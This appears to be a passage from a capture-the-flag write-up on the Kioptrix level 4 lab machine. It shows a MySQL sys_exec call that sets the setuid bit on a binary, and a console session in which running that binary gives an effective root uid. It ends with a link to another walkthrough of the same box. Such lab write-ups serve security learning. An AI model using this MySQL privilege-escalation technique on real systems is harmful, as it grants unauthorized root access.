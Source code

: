 `
mysql> select sys_exec('chmod +s /home/john/escalate2root');
`

and the result is cool:

```console
-rwsr-sr-x 1 root root  15536 2020-03-21 10:26 escalate2root
john@Kioptrix4:~$ ./escalate2root 
# id
uid=1001(john) gid=1001(john) euid=0(root) egid=0(root) groups=27(sudo),1001(john)
# 
```

I then found a guide that exploitet a weakness on the member.php page to get the list of users and also it followed the same exploitation way for teh mysql even if with slightly small differences on the findings of the vulnerabilities. I think is worth reporting it:

[penetration-testing-practice-hacking-kioptrix-l4](https://nandtech.co/2017/07/16/penetration-testing-practice-hacking-kioptrix-l4/)

